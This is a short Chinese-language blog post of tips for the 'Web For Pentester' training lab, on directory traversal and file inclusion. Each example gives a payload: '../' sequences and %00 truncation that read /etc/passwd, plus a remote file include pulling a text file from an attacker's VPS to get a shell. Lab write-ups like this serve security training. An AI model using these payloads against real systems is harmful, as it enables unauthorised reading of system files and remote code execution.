 ```yaml
---
layout:     post
title:      "Web For Pentester - Directory traversal & File Include Part Tips"
date:       2016-11-01
categories: [pentest]

---
```




## Directory traversal Part 

### Example 1

最基础的目录穿越造成的任意文件读取，这里为相对路径，通过“../”可进行目录跳转

**file=/../../../../../../../../etc/passwd**

### Example 2

路径显示为网站物理路径，直接改为/etc/passwd不成功，通过../进行目录穿越

**file=/var/www/files/../../../etc/passwd**

### Example 3

这里可以看出文件名后缀被写死到了程序当中，使用%00进行截断

**file=../../../../../../../../../etc/passwd%00**

## File Include Part

### Example 1

使用单引号报错可以看到程序抛出了异常，这里爆出了网站物理路径，并在程序中使用include()函数，当然可以使用目录穿越去包含本地/etc/passwd文件，也可以使用远程文件包含去getshell

**page=/../../../../../../../../etc/passwd**

**page=http://vps地址/phpinfo.txt**

### Example 2

与Directory traversal Part中的Example 3类似，通过%00去截断

**page=/../../../../../../../../etc/passwd%00**

**page=http://vps地址/phpinfo.txt%00**

